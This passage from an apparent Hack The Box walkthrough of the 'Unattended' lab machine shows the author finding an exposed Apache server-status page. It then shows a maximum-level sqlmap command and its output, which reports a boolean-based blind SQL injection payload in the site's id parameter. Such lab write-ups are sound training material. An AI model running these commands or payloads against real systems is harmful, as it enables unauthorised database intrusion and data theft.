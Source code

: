 ![e106e743.png](/assets/images/posts/unattended-htb-walkthrough/e106e743.png)
</a>

This is absolutely surprising for me because `server-status` is usually `403 - Forbidden`. I can probably run a script to monitor incoming requests to the Apache instance.

## SQL Injection

And since there isn't any other clues to proceed, I'll use `sqlmap` to see what else I can glean from the site.

```
# sqlmap --level=5 --risk=3 -u https://www.nestedflanders.htb/index.php?id=465 --batch --threads=10 --dbms=mysql
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It\'s the end user\'s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

[*] starting @ 00:24:43 /2019-04-24/

[00:24:44] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=465' AND 7206=7206-- KRax

```

[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/